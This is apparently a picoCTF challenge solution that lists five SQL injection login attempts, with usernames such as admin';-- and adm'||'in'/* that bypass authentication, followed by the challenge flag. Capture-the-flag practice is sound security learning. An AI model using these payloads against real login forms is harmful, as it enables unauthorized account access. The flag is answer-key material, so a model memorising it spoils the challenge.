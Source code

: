 1
Username: admin';--
Password: a

2
Username: admin'/*
Password: a

3
Username: admin'/*
Password: a

4
Username: adm'||'in'/*
Password: a

5
Username: adm'||'in'/*
Password: a

picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}